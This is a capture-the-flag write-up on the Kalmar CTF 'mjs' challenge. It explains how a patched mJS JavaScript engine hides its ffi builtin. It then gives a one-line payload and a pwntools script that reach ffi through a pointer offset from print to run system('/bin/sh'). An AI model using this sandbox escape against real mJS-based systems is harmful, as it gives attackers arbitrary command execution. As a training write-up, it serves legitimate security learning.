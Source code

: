 ```yaml
---
title: "Kalmar CTF: mjs"
tags: CTF Browser
style: border
color: warning
comments: true
description: kalmar ctf web browser exploitation challenge
---
```


# mjs
This web browser challenge provides a github repository, which can be found [here](https://github.com/cesanta/mjs), some browser binary and scripts, and a docker file.

### Remark
This was my first web browser exploitation. It includes, but not limited to, binary, javascript, and engine knowledge.
It took a bit to figure out the inner structures, how they worked together, and where to look at. 
However, once I figured out where to look at, the challenge became pretty straight forward and even seemed easy.

## Analysis
This challenge seems to be using a restricted javascript engine to restrict API calls, so I took a look at the repository to see which calls are allowed.
These are the API calls I can utilize. 
```javascript
print(arg1, arg2, ...);
load('file.js', obj);
die(message);
let value = JSON.parse(str);
let str = JSON.stringify(value);
let proto = {foo: 1}; let o = Object.create(proto);
'some_string'.slice(start, end);
'abc'.at(0);
'abc'.indexOf(substr[, fromIndex]);
chr(n);
let a = [1,2,3,4,5]; a.splice(start, deleteCount, ...);
let s = mkstr(ptrVar, length);
let s = mkstr(ptrVar, offset, length, copy = false);
let f = ffi('int foo(int)');
gc(full);
```

Unzipping the challenge file gives a python code that runs on the server that takes in user input and opens a subprocess ```./mjs``` and executes the input as a javascript code.

The usage of the mjs binary locally looks like:
```bash
./mjs ./test.js
```
where test.js is the javascript file that I want to execute locally.
So if my test.js looks like this:
```javascript
function hello() {
    print("hello world");
}

hello();
1;
```
Then the output will look like:
```bash
hello world
1
```

So I pretty much can execute arbitrary codes on the server as long as they comply with the restrictive engine/within the API list.

Taking a look at ```diff.patch```, it gives a pretty interesting info.
```markdown
diff --git a/Makefile b/Makefile
index d265d7e..d495e84 100644
--- a/Makefile
+++ b/Makefile
@@ -5,6 +5,7 @@ BUILD_DIR = build
 RD ?= docker run -v $(CURDIR):$(CURDIR) --user=$(shell id -u):$(shell id -g) -w $(CURDIR)
 DOCKER_GCC ?= $(RD) mgos/gcc
 DOCKER_CLANG ?= $(RD) mgos/clang
+CC = clang
 
 include $(SRCPATH)/mjs_sources.mk
 
@@ -81,7 +82,7 @@ CFLAGS += $(COMMON_CFLAGS)
 # NOTE: we compile straight from sources, not from the single amalgamated file,
 # in order to make sure that all sources include the right headers
 $(PROG): $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) $(TOP_HEADERS) $(BUILD_DIR)
-	$(DOCKER_CLANG) clang $(CFLAGS) $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) -o $(PROG)
+	$(CC) $(CFLAGS) $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) -o $(PROG)
 
 $(BUILD_DIR):
 	mkdir -p $@
diff --git a/src/mjs_builtin.c b/src/mjs_builtin.c
index 6f51e08..36c2b43 100644
--- a/src/mjs_builtin.c
+++ b/src/mjs_builtin.c
@@ -137,12 +137,12 @@ void mjs_init_builtin(struct mjs *mjs, mjs_val_t obj) {
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_load));
   mjs_set(mjs, obj, "print", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_print));
-  mjs_set(mjs, obj, "ffi", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call));
-  mjs_set(mjs, obj, "ffi_cb_free", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free));
-  mjs_set(mjs, obj, "mkstr", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr));
+  /* mjs_set(mjs, obj, "ffi", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call)); */
+  /* mjs_set(mjs, obj, "ffi_cb_free", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free)); */
+  /* mjs_set(mjs, obj, "mkstr", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr)); */
   mjs_set(mjs, obj, "getMJS", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_get_mjs));
   mjs_set(mjs, obj, "die", ~0,
@@ -151,8 +151,8 @@ void mjs_init_builtin(struct mjs *mjs, mjs_val_t obj) {
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_do_gc));
   mjs_set(mjs, obj, "chr", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_chr));
-  mjs_set(mjs, obj, "s2o", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o));
+  /* mjs_set(mjs, obj, "s2o", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o)); */
 
   /*
    * Populate JSON.parse() and JSON.stringify()
diff --git a/src/mjs_exec.c b/src/mjs_exec.c
index bd48fea..24c2c7c 100644
--- a/src/mjs_exec.c
+++ b/src/mjs_exec.c
@@ -835,7 +835,7 @@ MJS_PRIVATE mjs_err_t mjs_execute(struct mjs *mjs, size_t off, mjs_val_t *res) {
 
           *func = MJS_UNDEFINED;  // Return value
           // LOG(LL_VERBOSE_DEBUG, ("CALLING  %d", i + 1));
-        } else if (mjs_is_string(*func) || mjs_is_ffi_sig(*func)) {
+        } else if (mjs_is_ffi_sig(*func)) {
           /* Call ffi-ed function */
 
           call_stack_push_frame(mjs, bp.start_idx + i, retval_stack_idx);
```

The author commented out calls to mjs_set with ```ffi``` argument.

I looked up ffi and it gave me: Detailed info [here](https://hackage.haskell.org/package/threepenny-gui-0.9.4.0/docs/Foreign-JavaScript.html#:~:text=A%20JavaScript%20foreign%20function%20interface,used%20internally%20by%20the%20Graphics.)
```
"This module implements a web server that communicates with a web browser and allows you to execute arbitrary JavaScript code on it."
```

So my idea was, to pop a shell, I would need to call ```ffi``` to run C code and execute ```system```.

### Dynamic
I started interacting with mjs with gdb. 
Since I could call print, I can print addresses of functions like:
```javascript
print(print);
```
And within gdb, print is mjs_print and ffi is mjs_ffi_call, I figured out their actual names by referencing the souce in git repository.

I cannot call ffi directly, but I can call ffi using ```(print + offset)```, which I believe is the intended vuln. And I can calculate offset using gdb.

## Exploitation
The explotation is fairly simple, as we only have to call ffi using the right offset and the right calling convention, which was a bit tricky to figure out.

But locally, we just need one line:
```python
(print + 0x6ab0)('int system(char *)')('/bin/sh');
```

And for remote, we just supply "EOF" at the end to run.
```python
#!/usr/bin/python3
from pwn import *
context.log_level='debug'
context.arch='amd64'
#context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
p=remote('127.0.0.1', 10002)
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)
# gdb.attach(p)

sla('End with "EOF":\n', "print((print + 0x6ab0)('int system(char *)')('/bin/sh'));\nEOF")

p.interactive()
```
One line is all we need. 

## Notes
The exploitation logic isn't that complex. To solve this challenge, I had to learn some basic javascript and what to expect in terms of how the server behaves relating to my requests- which I believe is the fundamentals of web browser exploitation.

I think this was a fairly neat challenge for beginners of web browser exploitation. It also reminded me of seccomp and sandbox escaping challenges.

Thank you!

079
